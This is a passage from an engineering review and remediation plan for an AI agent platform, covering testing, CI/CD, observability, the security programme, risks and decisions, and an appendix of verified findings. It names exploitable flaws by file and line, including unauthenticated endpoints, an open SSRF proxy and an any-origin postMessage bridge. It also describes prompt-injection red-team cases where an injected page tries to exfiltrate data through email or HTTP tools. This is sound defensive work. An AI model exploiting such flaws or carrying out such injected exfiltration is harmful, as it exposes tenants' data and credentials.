Right now nothing outside the code itself backs up its concurrency and security claims. `package.json:5-15` has no `test` or `lint` script. There is no `.github/`, no ESLint config and no `src/middleware.ts`. The only test is a live script with a hard-coded user [quality-8]. The practices below are the minimum needed to run the plan safely. Each one is tied to the phase that first needs it.

### 7.1 Testing pyramid

| Layer | Tool | What it covers here | Gate | Starts |
|---|---|---|---|---|
| Unit (pure) | Vitest | spec-diff, schedule `nextRun()`, pricing, `decisionCheck`/`evaluateApprovalPolicy`, publish `validate()`, `normaliseSpec`, `safeFetch` IP classifier (ipaddr.js table), DLP validators (Luhn, safe-regex2) | ≥40 tests at Gate A. Line coverage ≥80% on `src/lib/{policy,spec,pricing,http,guardrails}` | P0 |
| Property | fast-check | Crash at every `await` in `advance()` against a fake Anthropic client and a counting mock upstream. Also zod round-trip of AgentSpec, exporter name fuzzing [quality-2] | 1,000 trials, 0 duplicate side effects | P1 (1.2 merge gate) |
| Integration (real Postgres) | Vitest + testcontainers-node (`postgres:16`), MinIO container | Lease CAS (`src/lib/orchestrator.ts:166-168`), resume CAS (`src/lib/orchestrator.ts:391`), cron `for update skip locked` (`src/app/api/cron/route.ts:62`), park-window race, reservation overshoot, migrations up from empty, RLS policies | Required check on every PR. Suite under 6 min, run in parallel per schema | P0 |
| Authorization | Vitest table tests + seeded two-org fixture | Policy matrix, every role × every mutating route. Cross-tenant suite: every GET/PATCH/DELETE under org B on org A's ids returns 404 | 100% of cells. Any new route without a matrix row fails the route-inventory test | P1 (1.8) |
| Tool contract | Vitest + msw (HTTP), local SMTP (smtp4dev/Mailpit), Postgres container for `sql_query` | Each ToolDef: input schema, `describeForApproval` output, error taxonomy, timeout, 2 MB cap, redirect re-check, idempotency key passed | One contract file per ToolDef. CI fails if a ToolDef in `src/lib/tools.ts` lacks one | P1 |
| SSRF / security regression | Vitest against `safeFetch` and deployed staging | The 25-payload SSRF corpus (metadata, RFC1918, rebinding, redirect-to-private, IPv6-mapped, decimal IP), anonymous curl scan of fenced paths | 0 successes. Runs nightly against staging | P0 scan, P1 corpus |
| LLM eval regression | Promptfoo (or a Vitest harness) on real `modelCall` in dry-run mode, recorded fixtures for PRs, live runs nightly | Compile output validates against `AgentSpecSchema`, tool selection on a golden set of 30-50 specs, `stop_reason` handling, prompt-injection red-team cases (lethal trifecta: injected page tries to exfiltrate through `send_email`/`http_request`) | Nightly: pass-rate drop over 5 pts vs. baseline blocks release. 0 red-team exfiltrations reaching an ungated tool | P1 fixtures, P2 live. This replaces the fabricated harness at `src/lib/evals.ts:377-392` [ai-2] |
| E2E | Playwright against `next start` + worker + testcontainers DB, Anthropic stubbed at the gateway | 8 journeys: sign in, compile, publish with hash, run, approve (full-argument view), reject, spend cap 402, retire cancels parked runs | On PRs touching `src/app/**`, plus nightly. Flake budget: auto-quarantine after 2 flakes in 7 days | P1 |
| Load / chaos | k6, AWS FIS, `kill -9` harness | Figures from the 1.x/3.6 exit criteria | Pre-gate only | P1 (chaos), P3 (load) |

Rules:
- **Stub Anthropic at `modelCall`, never mock `pg`.** Any SQL behaviour, including CAS, SKIP LOCKED, RLS and triggers, is tested against a real Postgres.
- A bug fix needs a failing test first. For concurrency bugs that means a testcontainers test.
- Test data is created per test in its own org. No shared fixtures with hard-coded ids.

### 7.2 CI/CD

```mermaid
flowchart LR
  PR["Pull request"] --> S["Static: tsc, ESLint, Prettier, gitleaks"]
  S --> U["Vitest unit + property"]
  U --> I["Integration: testcontainers PG + MinIO"]
  I --> R["Route inventory + policy matrix + cross-tenant"]
  R --> SEC["npm audit high, Trivy image, CodeQL"]
  SEC --> E["Playwright if app changed"]
  E --> M["Merge to master"]
  M --> B["Build image once, tag git SHA, push ECR"]
  B --> MIG["ECS release task: node-pg-migrate"]
  MIG --> STG["Deploy staging blue/green"]
  STG --> SMK["Smoke: GET sweep, SSRF corpus, ZAP baseline"]
  SMK --> PRD["Manual promote same digest to prod"]
```

- **GitHub Actions**, one workflow with required checks. Target: PR pipeline p50 under 10 min, cached `npm ci`.
- **Static:** `tsc --noEmit` with `strict`. `@typescript-eslint/no-explicit-any` starts as a warning, with a ratchet that fails if the count of about 400 grows [quality-11]. `no-console` and `no-empty` become errors in P1 [integrations-27].
- **Supply chain:** `npm audit --omit=dev --audit-level=high`, Trivy on the image (fail on HIGH/CRITICAL with a fix), gitleaks, CodeQL `javascript-typescript` weekly and on PR, Renovate with grouped weekly PRs, `npm ci --ignore-scripts` where possible. Generate an SBOM (CycloneDX via `@cyclonedx/cyclonedx-npm`) on every image.
- **Build once, promote by digest.** Staging and prod run the same ECR image digest. There are no per-environment builds; config comes only from Secrets Manager and env, validated by `src/lib/env.ts` at boot [ops-15].
- **Migrations:** node-pg-migrate in an ECS release task under an advisory lock, before the deploy. Expand/contract only: a migration must be compatible with the previous app version, and a CI job runs the previous image's integration tests against the new schema. Destructive steps (drop, not-null) ship at least one release after their expand step.
- **Preview environments** are not worth the cost at this team size. Staging is the integration point, and it is reset from a sanitised snapshot weekly.

### 7.3 Branching and code review

- **Trunk-based** on `master`. Branches live 2 days or less. Incomplete work ships dark behind `org_features` flags [ops-28].
- **Branch protection:** PR required, 1 approval, all required checks green, linear history (squash), no force-push, signed commits optional.
- **CODEOWNERS with 2 reviewers** for `src/lib/auth.ts`, `src/lib/crypto.ts`, `src/lib/orchestrator.ts`, `src/lib/tools.ts`, `src/lib/http.ts`, `src/server/policy/**`, `db/migrations/**` and `infra/**`. One of the two must be the designated security reviewer for auth, crypto, egress and policy changes.
- **PR template checklist:**
  - new route added to the inventory and policy matrix;
  - migration is expand-only;
  - new tool has a contract test and `describeForApproval`;
  - no fabricated data in UI (the Truth in UI rule from 0.3);
  - flag name for unfinished features.
- **Size:** aim for under 400 changed lines. The 50 uncommitted files land as feature-grouped PRs, not one commit [ops-10].
- Use **ADRs** (`docs/adr/NNNN-*.md`, MADR format) for every row of the decision table in 8.4.

### 7.4 Observability

**Logs (P1).**
- Use pino JSON to stdout, shipped to CloudWatch Logs.
- Child loggers carry `requestId`, `orgId`, `userId`, `runId`, `jobId`, `toolUseId` and `gitSha`.
- Redact paths for `authorization`, `cookie`, `password`, `config.secret*` and tool inputs flagged by DLP.
- Today the orchestrator logs nothing [runtime-25] and errors are swallowed at 38 empty catch blocks and 44 `.catch(() =>` sites [integrations-27]. After P1, every `catch` either rethrows or logs at `warn` or above.
- Retention: 30 days hot, 1 year in S3 for audit-relevant streams.

**Errors (P1).** Sentry for web and worker, with release = git SHA and source maps uploaded in CI. Scrub PII with `beforeSend`.

**Metrics (P1 CloudWatch, P2 OTel).** Instrument with RED for routes and USE for pool and queue:
- `runs_started_total{org,trigger}`, `runs_terminal_total{status}`, `run_step_duration_seconds{tool}`, `model_call_duration_seconds{model,stop_reason}`;
- `usage_micros_total{org,purpose}`, `reservation_denied_total`;
- `pgboss_queue_depth{queue}`, `pgboss_oldest_job_age_seconds`, `runs_stuck` (running with an expired lease);
- `pg_pool_{total,idle,waiting}`, `egress_denied_total{reason}`, `approvals_pending`, `approval_decision_latency_seconds`, `outbox_dead_letter_total`.

Never use `org` as a label on high-volume histograms; keep per-org analysis in logs and traces.

**Traces (P2).**
- OpenTelemetry via `instrumentation.ts` and `@opentelemetry/sdk-node` in the worker, with auto-instrumentation for `pg` and `undici`.
- Manual spans for `run.execute`, each loop iteration, `modelCall` (with the Anthropic `request-id` attribute) and each tool call.
- Propagate trace context through the pg-boss job payload so one trace spans HTTP → enqueue → worker → resume.
- Export via ADOT to X-Ray or Honeycomb. Sample tail-based: 10% of traces, 100% of errors.

**SLOs and error budgets (P2).** Use a 28-day rolling window. Alert on multi-window burn rate (Google SRE workbook): page at 14.4× over 1 h and 5 min, ticket at 6× over 6 h and 30 min.

| SLI | Definition (good / valid) | SLO | Notes |
|---|---|---|---|
| Run admission latency | `POST /api/runs` and v1 runs returning 2xx/4xx in under 300 ms / all admission requests | 99% | Excludes 402/429 from "bad" |
| Run start latency | runs whose first step starts within 5 s of `queued` / all queued runs | 95% | Measures queue health |
| Run platform reliability | runs reaching `completed`, `failed` for a tenant or model reason, `awaiting_approval` or `cancelled` / all runs. Bad = `failed` with a platform error class, reaped, or stuck past 2 × LEASE (10 min, `src/lib/orchestrator.ts:146`) | 99.5% | Error class comes from the ToolError/model error taxonomy |
| Duplicate side effects | consequential tool executions with more than one `run_steps` row per `(run_id, tool_use_id)` | 0 (invariant, not a budget) | Any occurrence pages and triggers an incident |
| Approval notification delivery | outbox rows for `approval.requested` delivered within 2 min / all | 99.5% | A lost notice silently stalls a run [gap-approval-governance-and-notification-delivery-9] |
| Approval-to-resume latency | decisions whose `run.resume` starts within 10 s / all decisions | 95% | |
| API availability | non-5xx / all authenticated requests at the ALB | 99.9% | About 40 min per 28 days |
| Spend accuracy | abs(ledger − Anthropic invoice) / invoice per month | ≤1% | Reconciliation job; a breach blocks billing |

Error budget policy: while a service's budget is exhausted, only reliability and security changes merge to it, and every burn costing more than 25% of the budget gets a postmortem.

### 7.5 Security programme

**Threat model (P0, refreshed each phase).**
- STRIDE per trust boundary, kept in `docs/threat-model.md` and reviewed in the Gate A/B/D checklists:
  - browser to web;
  - API key client to v1;
  - web to worker via the queue;
  - worker to tenant egress;
  - worker to Anthropic;
  - model output to tool execution;
  - embedded app iframe to bridge.
- Add the OWASP Top 10 for LLM Applications, especially LLM01 prompt injection, LLM06 excessive agency and LLM10 unbounded consumption. The code behind these threats:
  - model-controlled egress (`src/lib/tools.ts:167`, `src/lib/tools.ts:284`) [surface-4];
  - gates read verbatim from the spec (`src/lib/orchestrator.ts:211-212`) [surface-10];
  - cost only at finish (`src/lib/orchestrator.ts:528`) [runtime-11].

**Verification standard.** Target **OWASP ASVS 4.0.3 Level 2** for the whole app. Adopt **Level 3 for V6 (stored cryptography) and V4 (access control)**, because this product holds tenant credentials and executes actions for them. Track requirements in a spreadsheet mapped to tests; the SOC 2 readiness in 3.6 reuses it.

**Controls with owners:**
- **AuthN/session:**
  - [x] Boot-time rejection of the fallback secret (`src/lib/auth.ts:7`, `src/lib/crypto.ts:5`) [auth-1];
  - [x] HKDF key split [auth-8];
  - `__Host-` cookie, session_version revocation [auth-16];
  - rate-limited login [auth-10];
  - TOTP for owners and approvers (P2).
- **AuthZ:** `withRoute` + `can()` only. Middleware never makes authorization decisions (CVE-2025-29927), and the WAF strips `x-middleware-subrequest`.
- **Egress:** `safeFetch` is the only outbound HTTP client. An ESLint `no-restricted-globals`/`no-restricted-imports` rule bans bare `fetch` and `undici` in `src/lib/tools.ts` and `src/worker/**` outside `src/lib/http.ts`.
- **Transport:** TLS verification on everywhere. A lint rule flags `rejectUnauthorized: false` (present at `src/lib/redis-client.ts:74`) [integrations-8].
- **Browser:** CSP with nonces (report-only for 2 weeks via `report-to`, then enforce), HSTS preload, `frame-ancestors 'none'`, Origin/Sec-Fetch-Site CSRF check [auth-15][auth-18].

**Dependency policy.**
- Critical CVE with a fix: patched in prod within 48 h. High: 7 days. Medium: 30 days.
- No fix available: remove the dependency or document a compensating control, with an expiry, in `SECURITY-EXCEPTIONS.md` (this is how xlsx [storage-16] would have been handled).
- New runtime dependencies need a reviewer check: weekly downloads, maintenance within the last 12 months, licence on an allowlist (MIT, Apache-2.0, BSD, ISC), no install scripts unless justified.
- Stay on a supported Next.js major and never more than one minor behind the SDK's current release [ops-9][ai-19].

**Secrets management.**
- Platform secrets live in AWS Secrets Manager, injected as ECS secrets, never in images or `.env` in prod. gitleaks runs in CI and as a pre-commit hook via lefthook.
- Rotation: AUTH/HKDF root every 180 days via the key-ring `kid`; database credentials every 90 days using Secrets Manager rotation; the Anthropic platform key on staff departure or suspected exposure. Tenant secrets move under KMS per-org DEKs in P2, with a quarterly rotation drill.
- Breakglass: two named people, access logged via CloudTrail, reviewed monthly.

**Pentest cadence.**
- Scoped external test of the Phase 1 surface in week 8 (Gate B).
- Full OWASP WSTG test before Gate D, then annually and after any major surface change (apps usercontent domain, public API v2, SSO).
- Include LLM-specific cases: injection to exfiltration, approval-view spoofing, destination drift.
- Remediation SLA: critical 7 days, high 30 days, retested by the vendor.
- Publish `/.well-known/security.txt` and a disclosure policy at Gate C, and consider a private bug bounty after GA.

**Automated DAST.** OWASP ZAP baseline against staging on every deploy. ZAP full scan weekly.

### 7.6 Release and rollback

| Change type | Mechanism | Rollback | Time to roll back |
|---|---|---|---|
| App code | ECS blue/green via CodeDeploy, 10% canary for 10 min on web, deployment circuit breaker on 5xx and health alarms | Automatic on alarm, or `aws deploy stop-deployment` | Under 5 min |
| Worker code | Rolling, `minimumHealthyPercent=100`, SIGTERM drain within 60 s (stopTimeout 120) | Redeploy previous digest; in-flight runs are re-leased by `run.reaper` | Under 10 min |
| Risky behaviour (executor, reservations, RLS table, new tool) | `org_features` flag, rollout internal org → 10% → 100% with at least 48 h per step | Flip flag | Under 1 min |
| Schema | Expand/contract migrations only | Previous app runs on the expanded schema. No down migrations in prod; forward-fix instead | n/a |
| Data backfills / re-encryption | Script with `--dry-run` and `--verify`, snapshot first, dual-read period (30 days for keys) | Restore from snapshot or dual-read fallback | Under 1 h |
| Destructive jobs (purge) | Dry-run diff, two-operator confirmation, 30-day grace | PITR within the 35-day window | RTO under 1 h |

- Release cadence: continuous to staging. Prod runs Monday to Thursday until 15:00 local, with no Friday deploys until the SLOs have 2 months of history.
- Each prod release has a changelog generated from PR titles (release-please).
- Customer-visible governance changes get the one-week "you no longer can" notice from 1.8.

### 7.7 On-call and runbooks

- **Rota:** from Gate B, a weekly primary/secondary rotation across all engineers, run in PagerDuty or Opsgenie. With 2-4 engineers this is heavy, so page only on SLO burn and the invariants below, and send everything else to a ticket queue [top risk: capacity].
- **Paging conditions:**
  - fast SLO burn;
  - `runs_stuck > 0` for 10 min;
  - any duplicate side-effect detection;
  - oldest job over 5 min;
  - outbox dead letters over 0;
  - DB CPU over 80% for 15 min or connections over 80%;
  - a WAF block spike 10× over baseline;
  - reservation or ledger reconciliation drift over 1%;
  - any 5xx on `/api/auth/*` above 2% for 5 min.
- **Severity and response:** SEV1 (cross-tenant exposure, duplicate consequential action, prod down) acknowledged in 15 min, status page within 30 min, customer notice per DPA within 72 h. SEV2 acknowledged in 30 min in business hours.
- **Postmortems:** blameless, written within 5 business days for SEV1/2, with action items tracked to closure.
- **Runbooks** in `docs/runbooks/`, linked from every alarm's description. Required by Gate B:
  1. deploy and roll back (app, worker, flag);
  2. stuck or stranded runs (reaper, manual `outcome_unknown` resolution);
  3. queue backlog and per-org throttling;
  4. Anthropic 429/529 storms (lower global concurrency, pause the org);
  5. PITR restore, drilled quarterly with measured RTO/RPO;
  6. secret and key rotation, including emergency AUTH root rotation;
  7. suspected cross-tenant exposure (containment, evidence from audit and CloudTrail, notification);
  8. SSRF or egress alert triage;
  9. tenant suspend, export and purge.

  Runbooks for the outbox dead letter, KMS throttling, and RLS enforcement rollback per table are added in P2 and P3.
- **Game days:** one per phase, run on the kill -9 chaos script and later AWS FIS, with on-call staff who did not write the feature.

## 8. Risks, trade-offs and open questions

### 8.1 Key trade-offs the plan accepts

| # | Trade-off | What we give up | Why we accept it | Compensating control |
|---|---|---|---|---|
| 1 | Design partners at about week 9 on app-enforced tenancy; RLS lands at Gate D | Defence in depth against a missed `WHERE org_id` among about 200 hand-written predicates [data-12] for about 13 weeks | RLS is the riskiest rollout and safest once every query goes through `withTenantTx` | Policy module, repository layer, CI cross-tenant suite over every route, route-inventory gate, scoped pentest, invite-only tenants under DPA. No self-serve before RLS |
| 2 | Fence first, fix later | Apps proxy, v1, evals, playground, OAuth, export, swarm go dark for 2-4 months | Five of the 7 criticals and about 20 highs sit in these surfaces [auth-3][storage-6][frontend-1]; removing them is faster and safer than patching | Agreed fence list with partners; rebuild in 3.4 by demand |
| 3 | Phase 1 grows from 5 to 6-7 weeks (write-ahead steps, single ledger, destination binding, session revocation pulled forward) | About 2 weeks of partner time | No partner ever sees duplicate side effects [runtime-5] or cap overshoot [runtime-11] | n/a |
| 4 | pg-boss on Postgres, not a broker or workflow engine | Primary DB load; child joins and approval waits hand-built | Transactional enqueue; one datastore to back up and restore | Pre-agreed exit trigger: queue p95 over 2 s, DB CPU over 70% sustained, or about 50 jobs/s |
| 5 | Two executors (Inline and Queue) for about 6 weeks | Doubled test matrix | Per-org rollout and instant rollback on the riskiest change | Both call the same `advance()`; Inline deleted after 2 weeks at 100% |
| 6 | At-least-once queue + CAS lease + write-ahead steps; `outcome_unknown` for interrupted consequential steps | Exactly-once is impossible for vendors without idempotency keys; some runs need a human after a crash | Never blindly re-send an email or re-run a SQL write | Idempotency keys where supported; chaos test gate |
| 7 | Two re-encryptions (HKDF in P0, KMS in P2) | Duplicate migration effort and risk | Closes the forgeable-session and shared-key hole (`src/lib/auth.ts:7`, `src/lib/crypto.ts:5`) in week 1 instead of week 12 | Dry-run, verify-all-rows, legacy key readable 30 days |
| 8 | Reserve/commit budgeting | May refuse a run that would have fit under the cap | False refusals are better than overspending customer money | UI shows reserved vs committed |
| 9 | Stricter governance (forced gate floor, lethal-trifecta rule, published-only runs, approver MFA, no high-risk self-approval) | Friction and more approval volume; likely complaints | This is the product's value proposition | Impact reports one week before enforcement; approval-volume metric |
| 10 | AWS ECS/RDS/S3/KMS/SES over a PaaS | More setup and Terraform to own | PITR, KMS, WAF, private networking in one account | `StorageProvider`, `modelCall` and sender interfaces keep portability |
| 11 | Next 15 requires React 19 | Upgrade risk in the busiest phase | Next 14.2.35 carries critical advisories [ops-9] | 4-day time-box; patched 14.2.x + WAF fallback |

### 8.2 Top risks

| Risk | Likelihood | Impact | Leading indicator | Mitigation | Owner |
|---|---|---|---|---|---|
| Worker cutover breaks run invariants (double execution, stranded parked runs, lost partial results) | Medium | Critical | Any duplicate `(run_id, tool_use_id)`; `runs_stuck > 0` | Keep `advance()` and its CAS byte-for-byte; per-org flag; crash-at-every-await property test, kill -9 × 100, 1,000-iteration park-window test before partner traffic | Runtime lead |
| Phase 0 overruns (Next 15/React 19, key split, migrations together) | High | Medium | Upgrade PR not green by day 3 | 4-day time-box with 14.2.x + WAF fallback; re-encryption rehearsed on a snapshot with a verify pass | Eng lead |
| Cross-tenant leak before RLS (weeks 9-22) | Low-medium | Critical | Cross-tenant suite gap; new route without a matrix row | Controls in trade-off 1; RLS as a hard precondition for self-serve | Security reviewer |
| Stored specs, sessions or secrets fail new validation or re-encryption and lock partners out | Medium | High | Report-only zod failure rate over 0 on the snapshot | Report-only mode, v0 to v1 upgrade step, dual-read keys, verify 100% of rows before cutover | Platform |
| Residual prompt injection through approved channels | High | High | Red-team eval failures; recipient-allowlist denials | Lethal-trifecta rule, full-argument approval view with destination binding, recipient allowlists, per-run send caps, red-team evals once real evals exist | AI lead |
| Postgres becomes the single bottleneck earlier than planned | Medium | High | Queue lag, DB CPU, connection count alarms | RDS Proxy and `run_messages` as the first levers; pre-agreed trigger to move queue/rate limits | Platform |
| Destructive lifecycle job deletes the wrong tenant's data | Low | Critical | Dry-run diff mismatch | Registry-driven purge, dry-run diff, two-operator confirmation, PITR longer than grace, crypto-shred only after grace, RLS backstop | Platform |
| Capacity: 2-4 engineers also carry on-call | High | Medium | Sprint slip over 20%; pages per week over 2 | Phases 0-1 are non-negotiable; pre-cut scope for later phases (defer Stripe invoicing, approval quorum, unrequested 3.4 rebuilds) | Eng lead |
| Partner churn from fenced features and governance friction | Medium | Medium | Partner NPS, approval volume per run | Agree the fence list and approval expectations up front, impact reports, rebuild the 1-2 features partners actually need first | Product |

### 8.3 Non-goals (explicitly out of scope)

- Redis, BullMQ, Kafka or Temporal before the Phase 3 trigger fires.
- Kubernetes, a service mesh or microservices. Web and worker are two ECS services from one image.
- A Smokescreen egress proxy. `safeFetch` plus security-group deny rules and IMDSv2 hop limit 1 are enough until enterprise egress audit is required.
- Replacing auth with Better Auth, Clerk or Auth0, or porting all SQL call sites to Kysely. Typed queries are adopted only in touched modules.
- Enterprise SSO (SAML/OIDC) and SCIM before GA. The identity model leaves room for WorkOS.
- Schema-per-tenant or database-per-tenant isolation; multi-region active-active.
- Presidio or ML DLP. Only the DLP boundary, Luhn validation and the ReDoS fix are in scope.
- Rebuilding apps proxy, webhooks, MCP, OAuth, evals, playground, swarm or event triggers before Phase 3.
- A shared IR for the four import parsers [quality-9], or code-execution sandboxes.
- CSS system rewrite, i18n, Storybook, emoji and icon clean-up beyond correctness-relevant accessibility fixes.
- SOC 2 certification. Readiness is in scope; the audit follows GA.

### 8.4 Decisions the team must make

Each decision below should be recorded as an ADR (7.3) before the phase that depends on it starts.

| # | Decision | Options | Recommendation | Needed by |
|---|---|---|---|---|
| 1 | Next.js major for Gate A | (a) 15.x + React 19 now; (b) latest patched 14.2.x + WAF, upgrade in P1 | (a), time-boxed to 4 days; fall back to (b) automatically on overrun | P0 day 1 |
| 2 | Queue and workflow substrate | (a) pg-boss on RDS; (b) BullMQ + ElastiCache; (c) Temporal Cloud; (d) SQS + Step Functions | (a). Transactional enqueue with the run insert is the deciding property; revisit on the pre-agreed trigger | P1 start |
| 3 | Hosting platform | (a) AWS ECS Fargate + RDS; (b) Render/Fly/Railway; (c) Vercel + Neon + external worker; (d) EKS | (a). Long-running workers, PITR, KMS, WAF and private egress control in one account. (c) conflicts with long-running runs and egress control | P1 start |
| 4 | Tenancy enforcement timeline | (a) RLS at Gate D; (b) RLS before Gate B; (c) never, app-enforced only | (a), with the compensating controls in 8.1 #1. (b) delays partners about 3 weeks. (c) is not acceptable for self-serve | P1 start |
| 5 | Fence list for design partners | Which of apps, v1, evals, playground, OAuth, MCP, export, swarm, sandbox stay off until 3.4 | All off at Gate B. Ask each partner for their top 1-2 and order 3.4 by that; exporter first | P0 week 1, with partners |
| 6 | Platform Anthropic key vs bring-your-own-key | (a) platform key with metered billing; (b) BYOK only; (c) both, platform key allowlisted per org | (c). Platform key off by default [auth-11], BYOK for enterprises, both metered in `usage_events` | P0 (policy), P3 (billing) |
| 7 | Handling interrupted consequential steps | (a) always retry; (b) `outcome_unknown` for human decision; (c) auto-fail the run | (b) for consequential tools, retry for read-only tools | P1 (1.2) |
| 8 | Default approval posture for `fetch_url` when combined with data or egress tools | (a) always gated; (b) gated only with an egress tool; (c) domain allowlist makes it auto | (b) with (c) as an owner-set override, audited | P1 (1.5) |
| 9 | Approval self-approval default | (a) forbid for high risk; (b) allow with audit flag; (c) configurable per policy | (a) as default in governance v2, (c) for owners with audited exceptions | P3 (3.3), announce at Gate B |
| 10 | MFA scope | (a) owners and approvers mandatory; (b) all users mandatory; (c) optional | (a) at P2; revisit (b) at GA based on enterprise demand | P2 |
| 11 | Observability vendor | (a) CloudWatch + X-Ray + Sentry; (b) Datadog; (c) Honeycomb + Sentry; (d) Grafana Cloud | (a) for P1 (lowest cost, already in the account), then (c) or (d) for traces and SLOs in P2 if the CloudWatch SLO experience is poor. Instrument with OTel so the choice stays reversible | P1 (a), P2 (traces) |
| 12 | Data residency | (a) single US region; (b) EU region at GA; (c) per-tenant region choice | (a) for partners. Ask partners now whether EU is a hard requirement; if yes, plan (b) as a separate stack, not multi-region | Before partner DPAs |
| 13 | Billing model | (a) seats + usage; (b) usage only with platform markup; (c) flat tiers with included usage | Product decision. Engineering needs the `price_book` meter list by P3 week 1; the ledger supports all three | P3 start |
| 14 | Retention periods | run_steps, audit_events, notifications, webhook payloads, deleted-tenant grace | Proposed: run_steps 90 d, audit 1 y hot + 7 y archive (S3 Object Lock), notifications 30 d, webhooks 7 d, tenant grace 30 d. Confirm with legal and partner DPAs | P2 (lifecycle) |
| 15 | Customer database access mode | (a) read-only SQL only; (b) allow writes behind approval; (c) per-connection choice | (a) for Gate B via `withCustomerPg` `BEGIN READ ONLY`; (c) later with a separate write-role DSN and mandatory approval | P1 (1.5) |
| 16 | Untrusted embed domain | (a) separate registrable `apps-usercontent` domain; (b) subdomain of the app domain; (c) drop embeds | (a). (b) shares cookies and site context. Buy the domain now | Before 3.4 |
| 17 | Who owns security review | (a) a named engineer rotating quarterly; (b) fractional external security lead; (c) none | (a) plus (b) at about 1 day/week through Gate D, to own the threat model, ASVS mapping and pentest vendor | P0 |

### 8.5 Open questions

1. **Design partner commitments.** Have any partners been promised apps embedding, the public API, or export? Their answers change the order of 3.4 and possibly move Gate C.
2. **Data classification.** Will partners connect production databases containing regulated data (PHI, PCI)? If so, HIPAA/PCI scope is excluded from this plan and needs its own assessment before Gate B.
3. **Anthropic account limits.** What are the org-level rate limits and the Enterprise/ZDR terms? These set the global worker concurrency and the capacity model behind the 200-concurrent-run load target.
4. **On-call staffing.** Can 2-4 engineers sustain a rota from week 9 without a dedicated SRE, or should the business fund one before Gate D?
5. **Docs accuracy.** Should the README and `docs/TECHNICAL_DESIGN_DOCUMENT.md` be corrected now, before partners read them [ops-26]? Recommendation: yes, in P0, because claims such as XLSX support and webhook triggers are currently false.

## How this review was done

Ten reviewers each read one subsystem in full and reported findings with file and line evidence. Findings that shared a root cause were merged. Every finding was then re-checked against the code by a separate verifier, which confirmed, corrected or refuted it and recalibrated severity. Every finding still rated critical got a second, adversarial check that traced it from an external entry point, with a tie-break when the two disagreed. A completeness critic then looked for areas the reviewers missed, and new findings from those areas went through the same checks. Three architects drafted competing plans (security-first, platform-first, incremental), three judges scored them, and the final plan builds on the winner.

| Stage | Count |
|---|---|
| Raw findings | 372 |
| After merging duplicates | 289 |
| Verified | 288 (critical 7, high 58, medium 157, low 66) |
| Refuted | 1 |
| Not verified | 0 |

## Appendix A. Verified findings

| Id | Severity | Area | Location | Title |
|---|---|---|---|---|
| data-1 | critical | Data & persistence | `db/schema.sql:43` | Re-running schema.sql silently re-grants revoked workspace memberships |
| auth-3 | critical | Security & tenancy | `src/app/api/apps/[id]/proxy/[[...path]]/route.ts:12` | Unauthenticated app proxy forwards the caller's session cookie to tenant-controlled upstream URLs and acts as an open SSRF proxy |
| runtime-2 | critical | Runtime & scalability | `src/app/api/cron/route.ts:41` | Owner of one workspace can fire and observe every tenant's scheduled agents via manual cron tick |
| surface-3 | critical | Security & tenancy | `src/app/api/v1/agents/[id]/invoke/route.ts:152` | Public /api/v1/agents/[id]/invoke starts real runs with no authentication; Bearer/X-API-Key are read but never verified |
| storage-6 | critical | Storage & files | `src/app/assets/[...path]/route.ts:28` | `/assets` and `/api/v1` catch-alls are unauthenticated, pick a random tenant's upstream as fallback, and mark responses publicly cacheable |
| auth-4 | critical | Security & tenancy | `src/components/AppCanvasViewer.tsx:120` | Proxied third-party HTML is served from the application origin and iframed without sandbox, giving embedded apps full same-origin access to the API |
| frontend-1 | critical | Frontend | `src/components/AppCanvasViewer.tsx:164` | postMessage bridge accepts any origin and starts authenticated agent runs |
| gap-tenant-lifecycle-offboarding-3 | high | Security & tenancy | `db/schema.sql:280` | No account deletion or DSAR erasure path; PII is copied into denormalised columns and an append-only audit table that has no redaction path |
| ops-4 | high | Engineering practice & operability | `Dockerfile:43` | No graceful shutdown: SIGTERM during a 5-minute in-flight run is unrecoverable within any orchestrator grace period |
| ops-10 | high | Engineering practice & operability | `package.json:5` | No CI, tests, lint, format, pre-commit hooks, CODEOWNERS or branch protection; 50 files uncommitted on master |
| ops-9 | high | Engineering practice & operability | `package.json:24` | Known-vulnerable dependencies: Next 14.2 (critical, incl. unauthenticated RCE), nodemailer 6 (high), xlsx (no fix), SDK 95 minors behind |
| gap-approval-governance-and-notification-delivery-2 | high | Security & tenancy | `src/app/(app)/approvals/page.tsx:30` | Approvals queue hides recipients and destination: for send_email the approver sees only the body, not 'to' or 'subject' |
| frontend-14 | high | Frontend | `src/app/(app)/connections/page.tsx:761` | Fake connection health, latency and OAuth status shown to users |
| ai-3 | high | LLM layer & cost | `src/app/api/agents/[id]/playground/route.ts:37` | Playground 'Interactive Debugger Console' returns a hard-coded simulated trace, not the agent's behaviour |
| auth-13 | high | Security & tenancy | `src/app/api/agents/[id]/route.ts:28` | RBAC does not match the documented matrix: approvers (and builders) can edit specs, manage credentials, skills, apps and schedules |
| surface-10 | high | Security & tenancy | `src/app/api/agents/[id]/route.ts:31` | Spec gates are accepted verbatim from the client, so any member can set high-risk tools to `auto` |
| data-4 | high | Data & persistence | `src/app/api/agents/[id]/schedule/route.ts:18` | Schedule view queries columns that do not exist (finished_at, cost_cents) and always 500s |
| auth-14 | high | Security & tenancy | `src/app/api/agents/[id]/schedule/route.ts:61` | Publish and spend gates are bypassable: schedule 'run-now' and swarm 'dispatch' execute unreviewed drafts with no role, validation or budget check |
| auth-5 | high | Security & tenancy | `src/app/api/apps/[id]/proxy/[[...path]]/route.ts:245` | Proxy relays upstream Set-Cookie headers onto the Agent Studio origin, stripping Secure, enabling session fixation |
| auth-10 | high | Security & tenancy | `src/app/api/auth/route.ts:78` | No brute-force protection, rate limiting or lockout on login/registration; failed logins are not audited |
| runtime-6 | high | Runtime & scalability | `src/app/api/cron/route.ts:82` | Cron tick executes up to 20 scheduled runs sequentially inside one HTTP request with no backpressure |
| storage-7 | high | Storage & files | `src/app/api/documents/route.ts:25` | Local-disk STORAGE_DIR with absolute paths persisted in the DB breaks with 2+ replicas or any volume move |
| storage-8 | high | Storage & files | `src/app/api/documents/route.ts:29` | Uploads have no size limit, no per-org quota, and are fully buffered in memory |
| auth-7 | high | Security & tenancy | `src/app/api/invitations/route.ts:33` | No email verification: anyone can register a victim's address and inherit their invitations and shares |
| gap-tenant-lifecycle-offboarding-7 | high | Security & tenancy | `src/app/api/members/[id]/route.ts:46` | Pending invitations sent by a removed or demoted admin stay valid and can still grant the admin role |
| surface-16 | high | Security & tenancy | `src/app/api/sandbox/run/route.ts:23` | Sandbox run uses workspace/platform LLM keys outside spend tracking and puts the Gemini key in the URL |
